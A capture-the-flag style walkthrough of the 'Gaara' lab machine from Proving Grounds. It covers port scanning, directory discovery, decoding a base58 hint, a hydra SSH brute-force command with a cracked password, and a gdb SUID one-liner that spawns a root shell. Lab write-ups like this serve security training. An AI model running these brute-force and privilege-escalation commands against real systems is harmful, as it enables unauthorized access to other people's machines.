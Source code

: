 ```yaml
---
layout: post
author: H4
---
```


[Details](https://www.vulnhub.com/entry/gaara-1,629/)  
This box was customized by Offensive Security and integrated in the 'proving grounds' lab.  
In the following you see the solution of the 'proving grounds' version.  

# discovery
Performing a simple `nmap` scan to identify the attack surface of the target.

## port scan
```bash
$ nmap -Pn -p22,80 -sV 192.168.55.142
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-20 16:27 EST
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 16:28 (0:00:07 remaining)
Nmap scan report for 192.168.55.142
Host is up (0.10s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.64 seconds
```

## dir busting
Use `gobuster` or another dir busting tool to identify 'hidden' resources on the web server on port 80.

> The resource `/Cryoserver` can be identified
{: .prompt-info}

Requesting the resource exposes other resources to check.
- `/Temari`
- `/Kazekage`
- `/iamGaara`

Requesting `http://192.168.55.142/iamGaara` exposes a list of strings. The following string catches our attention:  
`f1MgN9mTf9SNbzRygcU`

> Trying to decode that string with `echo 'f1MgN9mTf9SNbzRygcU' | base64 -d` does not work, so it does not seem to be `base64`
{: .prompt-danger}

Playing around with [`cyberchef`](https://gchq.github.io/CyberChef/#recipe=From_Base58('123456789ABCDEFGHJKLMNPQRSTUVWXYZabcdefghijkmnopqrstuvwxyz',true)&input=ZjFNZ045bVRmOVNOYnpSeWdjVQ) reveals that it is `base58` encoded.  

> The decoded text is `gaara:ismyname` and indicates that `gaara` may be a system account.
{: .prompt-info}

---

# exploitation
We are using `hydra` to check if `gaara` used a weak password.
```bash
$ hydra -l gaara -P /usr/share/wordlists/rockyou.txt -V 192.168.55.142 ssh
```
> It worked! `gaara` uses the password `iloveyou2`.
{: .prompt-info}

---

# post exploitation
## log in via `ssh` and get first flag
```bash
$ ssh gaara@192.168.55.142                                           
gaara@192.168.55.142's password: 
Linux Gaara 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jan 20 16:38:23 2022 from 192.168.49.55

gaara@Gaara:~$ pwd
/home/gaara
gaara@Gaara:~$ cat local.txt 
a******************************1
```

## privilege escalation
### looking for `SUID` binaries owned by `root`
```bash
gaara@Gaara:~$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
-rwxr-sr-x 1 root shadow 39616 Feb 14  2019 /usr/sbin/unix_chkpwd
-rwsr-xr-- 1 root messagebus 51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwxr-sr-x 1 root crontab 43568 Oct 11  2019 /usr/bin/crontab
-rwsr-sr-x 1 root root 8008480 Oct 14  2019 /usr/bin/gdb
-rwsr-xr-x 1 root root 157192 Feb  2  2020 /usr/bin/sudo
-rwsr-sr-x 1 root root 7570720 Dec 24  2018 /usr/bin/gimp-2.10
-rwsr-xr-x 1 root root 34896 Apr 22  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwxr-sr-x 1 root ssh 321672 Jan 31  2020 /usr/bin/ssh-agent
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
-rwxr-sr-x 1 root shadow 71816 Jul 27  2018 /usr/bin/chage
-rwxr-sr-x 1 root mail 18944 Dec  3  2017 /usr/bin/dotlockfile
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 63568 Jan 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwxr-sr-x 1 root shadow 31000 Jul 27  2018 /usr/bin/expiry
-rwxr-sr-x 1 root tty 14736 May  4  2018 /usr/bin/bsd-write
-rwxr-sr-x 1 root tty 34896 Jan 10  2019 /usr/bin/wall
-rwsr-xr-x 1 root root 51280 Jan 10  2019 /usr/bin/mount
-rwsr-xr-x 1 root root 34888 Jan 10  2019 /usr/bin/umount
```

> Analyzing the output and checking the binaries on [gtfobins](https://gtfobins.github.io/gtfobins/gdb/#suid) shows that `gdb` can be exploited to get `root` access.
{: .prompt-info}

### exploiting `gdb` to get `root` access
```bash
gaara@Gaara:~$ /usr/bin/gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
# whoami
root
```

> Root! =)
{: .prompt-info}

## get second flag
```bash
# cd /root      
# ls
proof.txt  root.txt
# cat proof.txt
6******************************6
```

Pwned! <@:-)
